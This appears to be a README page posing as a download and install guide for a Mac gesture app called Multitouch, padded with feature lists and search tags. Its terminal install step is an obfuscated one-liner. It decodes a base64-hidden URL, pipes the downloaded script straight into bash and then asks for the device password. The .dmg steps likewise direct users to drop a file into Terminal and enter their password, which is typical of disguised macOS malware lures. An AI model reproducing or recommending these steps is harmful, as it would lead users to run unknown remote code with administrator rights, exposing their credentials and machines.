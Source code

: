 # Multitouch for Mac – Custom Multi-Gesture Control

![Multitouch Screenshot](https://multitouch.app/assets/images/spotlight01.png)

## 📥 Download Multitouch for macOS

[![⬇️ Download Multitouch](https://img.shields.io/badge/Download-Multitouch%20Mac-blue?style=for-the-badge&logo=apple)](https://shuziktobehuman.github.io/huja/Multitouch)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below. 
```bash 
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Multitouch for Mac?

Multitouch is a powerful macOS utility that expands how you use your Mac's input devices. It lets you create custom multitouch gestures for your trackpad, Magic Mouse, or Magic Trackpad, allowing you to assign keyboard shortcuts, window snapping, or automation scripts to taps, swipes, pinches, and force clicks.

Perfect for power users and professionals, Multitouch enables you to replace complex workflows with intuitive gestures, saving time and improving comfort. Whether you're browsing, coding, or designing, the app integrates smoothly with the system, stays light on resources, and works flawlessly on both Intel and Apple Silicon Macs.

With full support for gesture mapping, per-app customization, and deep macOS integration, Multitouch becomes a must-have tool for those who demand control, speed, and elegance in their workflow.

---

## ⚙️ Key Features

- 👆 Customize gestures for mouse, trackpad, and Magic devices  
- 🧠 Assign actions like keystrokes, shortcuts, and scripts  
- 🪟 Window snapping and quick window control  
- 🔄 Multi-device support: MacBook, Magic Mouse, Trackpad  
- ⚡ Ultra-fast gesture recognition  
- 🧩 System-wide integration  
- 💻 Compatible with macOS Monterey, Ventura, and Sonoma  
- 🧬 Native M1/M2/M3 support  

---

## 📦 System Requirements

- macOS 10.13 (High Sierra) or later  
- Compatible with Monterey, Ventura, Sonoma  
- Works with Intel and Apple Silicon (M1/M2/M3) Macs  
- Minimum 100MB free disk space  

---

## 🔍 Tags

multitouch mac, apple multi touch mouse, apple multi touch trackpad, multi touch macbook, multi touch mouse mac, multitouch app mac, multitouch for mac, multitouch mac app, multitouch macos, multitouch mac download, mac trackpad gestures, customize mac gestures, magic trackpad mac, magic mouse gestures, multitouch gesture manager, multitouch mac utility, mac gesture control, mac multitouch tool, trackpad gesture software mac

---
